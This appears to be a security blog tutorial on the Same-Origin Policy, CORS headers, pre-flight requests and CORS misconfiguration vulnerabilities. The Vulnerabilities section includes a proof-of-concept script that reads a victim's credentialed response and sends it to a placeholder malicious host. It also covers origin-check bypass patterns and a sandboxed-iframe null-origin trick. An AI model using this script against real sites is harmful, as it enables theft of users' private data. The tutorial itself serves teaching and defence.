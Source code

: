 ```yaml
---
title: "Cross-Origin Resource sharing (CORS)"
author: "Adria Pages Torruella"
date: 2023-12-03 17:30:00 +0800
categories: [Web Vulnerabilities]
tags: [Web,HTTP,CSRF]
math: true
render_with_liquid: false
---
```



CORS is a browser mechanism which enables access to resources that reside outside of a given domain. If it is poorly configured, it could lead to cross-domain attacks. 

To better understand CORS, it’s important to understand the **Same Origin Policy** **(SOP)** first

## Same-origin policy (SOP)

This security mechanism aims to prevent websites from attacking each other. It is used by the browsers to restrict scripts on one origin to access data from  another one. 

>Remember that an origin is the URI scheme, domain and and port number. A site is just the Top Level Domain (TLD) and the TLD+1.
{: .prompt-info}

This policy is important because when a browser send a request to an origin, it adds all the cookies, including authentication session cookies. Then, when accessing malicious sites, the site could execute scripts and do request to other origins and those requests will have your cookies, executing actions on their behalf.  

The SOP avoids this by limiting the access that JavaScript code has to content loaded cross-domain. However, it is allowed to load page resources from other origins, for example `<img>` , `<video>` and even `<script>`  but any JavaScript on the page won’t be able to read the contents. 

- Some objects are writable but not readable cross-domain: `location` and `location.href` properties
- Other objects are readable but not writable cross-domain: `length`  and `closed` property of the `window` property.
- The `replace` function can be called cross-domain on the `location` object
- The `close`, `blur`, `postMessage`and `focus` functions can be called on a new window cross-domain.
- Cookies are often accessible from all subdomains of a site (unless the `HttpOnly` flag is used, which only allow the access to cookies when doing HTTP requests and avoid JavaScript to access them).

You can relax SOP if two domains that are part of the same fully qualified domain name, for example test.com and website.test.com by setting the same `document.domain` to test.com. 

## **Access-Control-Allow-Origin (ACAO)**

Since SOP is very restrictive and nowadays websites need to interact with subdomains or third-parties, most site require full cross-origin access. This is where CORS appears. It uses several HTTP headers to define trusted web origins. These headers are exchanged between the browser and the cross-origin website. 

One of the headers is the `Access-Control-Allow-Origin` header. This header identifies the permitted origin of the request. The browser checks if the origin i the same as the page where the cross-origin request is being executed. If not, it doesn’t allow access. 

The specification of `Access-Control-Allow-Origin` permits to define multiple origins, however browsers don’t support it. It also allows the `null` and the wildcard `*` values. If a server wants to allow several specific origins, the recommended way to do it is to have your server read the Origin header  from the client, compare that to the list of origins you would like to  allow, and if it matches, echo the value of the `Origin` header back to the client as the `Access-Control-Allow-Origin` header in the response.

The default behavior of cross-origin requests is to be passed without credentials such as cookies, however, the servers can permit it by setting the  `Access-Control-Allow-Credentials` to `true`. Otherwise, if credentials were sent to the request but the response header is not `true`, the browser won’t allow to read the response. 

>Wildcards cannot be used within any other value. For example, the following header is **not** valid:
```
Access-Control-Allow-Origin: https://*.normal-website.com
```
In addition to this restriction, the wildcard origin can’t be used with `Access-Control-Allow-Credentials` = `true`
{: .prompt-info}

## Pre-flight checks

A pre-flight check is a preliminary HTTP request (using the `OPTIONS` method) sent by a web browser to a server before making the actual cross-origin request.

When a web page makes a cross-origin HTTP request that is not a simple request (e.g., includes certain headers, or uses methods other than GET, HEAD, or POST), the browser sends an HTTP OPTIONS request to the server as a pre-flight check. This pre-flight request includes headers such as `Origin` (indicating the origin of the requesting site), `Access-Control-Request-Method` (indicating the HTTP method that will be used in the actual request), and possibly `Access-Control-Request-Headers` (listing the headers that will be included in the actual request).

The server needs to respond to this pre-flight request with the appropriate CORS headers, indicating whether the actual request is permitted. The key CORS headers in the response include:

- `Access-Control-Allow-Origin`: Specifies which origins are allowed to access the resource.
- `Access-Control-Allow-Methods`: Specifies the HTTP methods that are allowed when accessing the resource.
- `Access-Control-Allow-Headers`: Specifies which HTTP headers are allowed in the actual request.

If the server responds with the appropriate CORS headers and indicates that the actual request is allowed, the browser will proceed to make the actual cross-origin request. If the pre-flight check fails, the browser will block the actual request, and the web page won't be able to access the requested resource.

>Note that CORS and SOP applies to JavaScript, so requests sent through forms are not subject to CORS and SOP, hence, a good CORS implementation doesn’t imply that the web is not vulnerable to CSRF.
{: .prompt-info}

## Vulnerabilities

Since maintaining a list of trusted origins is difficult and requires maintenance, some applications read the `Origin` header and include its value to the `Access-Control-Allow-Origin` header, without checking if it is a trusted origin or not. 

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If it also has the `Access-Control-Allow-Credentials: true`, credentials can be stolen.

Lets see an example: 

In this request I added the Origin Header with a made up URL: 

![Untitled](/img/posts/CORS/Untitled.png)

If we analyze the response, we can see that the Origin is added in the Allow Origin header and it also allows credentials, so we could exploit this to perform a cross origin request from a malicious site. 

![Untitled](/img/posts/CORS/Untitled%201.png)

If a malicious site had this script: 

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','vulnerablesite.com/endpoint',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='malicious-website.com/log?key='+this.responseText;
    };
</script>
```

The cross-request would happen and the private data could be extracted in the malicious server by checking the logs in the /log endpoint. 

Another vulnerability may when a server does check the origin with a whitelist, but it allow all subdomains by checking URL prefixes or suffixes. If the check is incorrectly, an attacker could try to create its own domain to bypass this check. 

For example, if the server checks for the  `normal-website.com` domain incorrectly, the malicious domains: `maliciousnormal-website.com` or `normal-website.com.malicious.net` could bypass the check. 

It is also allowed to specify the `null` origin value and some applications may have it whitelisted. An attacker could create requests containing the `null` origin by using sandboxed `iframes`

`<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>.......</script>"</iframe>`

Last but not least, if a server trust an origin which is vulnerable to XSS, an attacker could inject the XSS code and access de data.
